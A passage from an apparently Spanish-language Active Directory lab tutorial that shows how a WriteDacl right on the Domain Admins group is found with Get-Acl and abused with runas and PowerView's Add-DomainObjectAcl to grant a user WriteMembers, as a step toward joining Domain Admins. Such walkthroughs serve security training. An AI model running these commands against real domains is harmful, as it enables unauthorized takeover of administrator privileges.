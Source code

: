 ```powershell
(Get-Acl -Path "AD:CN=Domain Admins,CN=Users,DC=corp,DC=local").Access | Where-Object { $_.IdentityReference -like "*Enterprise Admins*" }
```

Info:

```
ActiveDirectoryRights : CreateChild, DeleteChild, Self, WriteProperty, ExtendedRight, GenericRead, WriteDacl,
                        WriteOwner
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : CORP\Enterprise Admins
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

Y en el `BloodHound` se tendra que ver algo asi:

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

Lo que nos permite hacer este `WriteDacl` es añadir una `DACL` directamente al grupo `DOMAIN ADMINS` por lo que haremos lo siguiente.

### Elevacion a grupo Domain Admins mediante el permiso WriteDacl

Tendremos que reiniciar la consola como hicimos antes...

```powershell
runas /user:corp\annice.mable /netonly powershell
```

```powershell
cd C:\Users\empleado1\Desktop\
. .\new_powerview.ps1
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers -PrincipalIdentity annice.mable
```

Y si no nos salio ningun error y ningun resultado significa que fue todo bien, ahora si lo comprobamos en nuestro `DC` tendremos que ver lo siguiente:
